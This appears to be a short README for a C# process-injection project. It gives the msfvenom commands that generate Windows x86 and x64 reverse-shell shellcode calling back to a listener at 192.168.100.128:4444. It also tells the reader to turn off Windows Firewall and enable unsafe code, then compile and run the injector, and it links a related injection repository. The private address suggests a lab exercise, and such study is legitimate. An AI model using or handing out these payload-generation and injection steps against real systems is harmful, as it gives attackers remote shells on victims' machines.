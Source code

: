 # Notes

1. To generate the payload, you need to use the following commands. The following is for x86

```sh
msfvenom -p windows/shell_reverse_tcp exitfunc=thread LHOST=192.168.100.128 LPORT=4444 -f csharp
```

The following is for x64

```sh
msfvenom -p windows/x64/shell_reverse_tcp exitfunc=thread LHOST=192.168.100.128 LPORT=4444 -f csharp
```

2. For msfvenom to work, you need to install metasploit framework on windows. See the reference for download link. 

3. Windows firewall will not allow you to even download the metasploit framework. So you need to disable it. See the Youtube video given in the reference.

4. You need to enable unsafe code for the project as follows. Rightclick the project and select project properties.

![Enable unsafe code](images/50_50_EnableUnsafeCodeForProject.png)

5. Now compile and run. 

# References
1. https://github.com/tasox/CSharp_Process_Injection
2. https://docs.metasploit.com/docs/using-metasploit/getting-started/nightly-installers.html#installing-metasploit-on-windows
3. https://youtu.be/IuXmboYm3Gk?t=35
4. 